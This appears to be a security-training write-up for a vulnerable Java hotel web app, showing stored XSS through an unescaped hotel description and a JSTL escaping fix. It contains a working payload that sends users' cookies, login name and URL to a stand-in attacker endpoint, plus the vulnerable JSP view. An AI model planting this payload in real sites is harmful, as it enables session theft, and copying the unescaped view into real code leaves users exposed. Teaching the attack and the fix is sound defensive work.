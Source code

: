 Java: XSS
=========

Scenario summary
----------------

The attacker will create an hotel description that has an embedded script that
will send the cookies of a user browsing the web site to the attacker website.

Scenario description
--------------------

To test whether the injection is possible, write in the description field the
following code:

	<script>alert('hello');</script>

To send the cookies of users to an evil website, set the following code as the
description of an hotel.

	<h3>That hotel!</h3>
	<div id="myHotel">Welcome!</div>
	<script type="text/javascript">
	var data = "";
	data += "[user: " + $("#login a.btn-primary").text() + "]";
	data += "[url: " + document.location.href + "]";
	data += "[cookie: " + document.cookie + "]";
	var imgsrc = "http://localhost:8081/evilhotel/sendData?data=" + escape(data);
	$("<img />").attr("src", imgsrc).appendTo($("#myHotel"));
	</script>

In the *evil-website* console, the user information should appear.
The sent request can also be seen using *FireBug* or *WebScarab*.

(Don't forget to change the host with what is needed...)

Vulnerable code
---------------

In the views, the view `hotel/view.jsp` will not escape the value of the hotel
description.

	<div class="row">
		<div class="span10 offset1">
		${hotel.descriptionHTML}
		</div>
	</div>

The *evil-website* server must be deployed for this attack to work.

Everytime that a non-white listed value is printed in a JSP this attack might
be possible.

Preventing the attack
---------------------

*All* data that is printed as HTML must be escaped or at least "white list"
validated.

To escape HTML using JSP, use the available JSTL:

	<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c" %>
	<div class="row">
		<div class="span10 offset1">
		<c:out value="${hotel.descriptionHTML}" />
		</div>
	</div>

If you want that the user could format some field, instead of letting them
write directly HTML, consider using another format such as BBCode, markdown or
wiki.
